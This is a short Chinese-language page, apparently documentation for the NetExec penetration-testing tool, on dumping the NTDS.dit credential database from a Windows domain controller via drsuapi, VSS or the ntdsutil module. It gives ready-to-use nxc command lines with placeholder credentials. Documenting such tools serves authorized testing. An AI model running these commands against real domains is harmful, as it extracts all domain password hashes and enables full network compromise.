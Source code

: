# 导出 NTDS.dit

### 使用 secretsdump.py 中的方法从目标域控制器导出 NTDS.dit

{% hint style="danger" %}
需要目标域控制器上的域管理员或本地管理员权限
{% endhint %}

```
有 2 种可用方法：   
(默认) drsuapi - 使用 drsuapi RPC 接口创建句柄，触发复制，并结合其他 drsuapi 调用将结果链表转换为可读格式  
       vss - 使用卷影复制服务  
```

```
#~ nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' --ntds
#~ nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' --ntds --users
#~ nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' --ntds --users --enabled
#~ nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' --ntds vss
```

{% hint style="info" %}
你也可以使用域控制器的计算机账户进行 DCSYNC
{% endhint %}

还有一个 ntdsutil 模块，它将使用 ntdsutil 导出 NTDS.dit 和 SYSTEM hive，然后使用 secretsdump.py 在本地解析它们

```
#~ nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' -M ntdsutil
```

记得每次获得 DA 权限时都要播放这首音乐

{% embed url="https://www.youtube.com/watch?v=SyjUwhBYa6Q" %}
